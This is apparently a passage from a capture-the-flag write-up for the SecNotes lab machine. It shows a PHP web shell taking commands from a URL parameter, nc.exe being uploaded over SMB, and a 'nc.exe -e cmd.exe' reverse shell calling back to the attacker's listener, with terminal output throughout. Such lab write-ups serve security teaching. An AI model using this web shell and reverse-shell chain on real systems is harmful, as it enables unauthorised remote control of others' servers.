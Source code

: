 ### 4. Get a shell
Usually IIS is running asp/x, but no webshells work with those formats. PHP works though. Can upload something simple to start with, like `<?php echo shell_exec("whoami"); ?>` which returns "secnotes\tyler".
```bash
┌──(kali㉿kali)-[10.10.14.3]-[~/Desktop]
└─$ curl http://secnotes.htb:8808/shell.php
secnotes\tyler
```
Modify the file slightly so it runs a command from a parameter instead: `<?php echo shell_exec($_GET["cmd"]); ?>`
Upload nc.exe to the machine over smb.
```bash
smb: \jack\> ls
  .                                   D        0  Sat May 29 02:04:40 2021
  ..                                  D        0  Sat May 29 02:04:40 2021
  shell.php                           A       40  Sat May 29 02:03:27 2021

                7736063 blocks of size 4096. 3321737 blocks available
smb: \jack\> put nc.exe
putting file nc.exe as \jack\nc.exe (27.1 kb/s) (average 15.1 kb/s)
```
...and then call it with arguments to connect back and establish a reverse shell:
http://secnotes.htb:8808/jack/shell.php?cmd=nc.exe%2010.10.14.3%209999%20-e%20cmd.exe
  
Get a shell in the listener.
```bash
┌──(kali㉿kali)-[10.10.14.3]-[~/Desktop]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.64.38] 51199
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site\jack>whoami
whoami
secnotes\tyler
```

### 5. Enumerate from user
The account is fairly standard, no obvious privesc routes.  
Check out the C:\ directory.

```shell
C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is 5D3C-D1D6

 Directory of C:\

06/21/2018  03:07 PM    <DIR>          Distros
06/21/2018  06:47 PM    <DIR>          inetpub
06/22/2018  02:09 PM    <DIR>          Microsoft
04/11/2018  04:38 PM    <DIR>          PerfLogs
06/21/2018  08:15 AM    <DIR>          php7
01/26/2021  03:39 AM    <DIR>          Program Files
01/26/2021  03:38 AM    <DIR>          Program Files (x86)
06/21/2018  03:07 PM       201,749,452 Ubuntu.zip
06/21/2018  03:00 PM    <DIR>          Users
01/26/2021  03:38 AM    <DIR>          Windows
               1 File(s)    201,749,452 bytes
               9 Dir(s)  13,605,556,224 bytes free
```
The presence of Ubuntu.zip may hint towards WSL being present on the system.
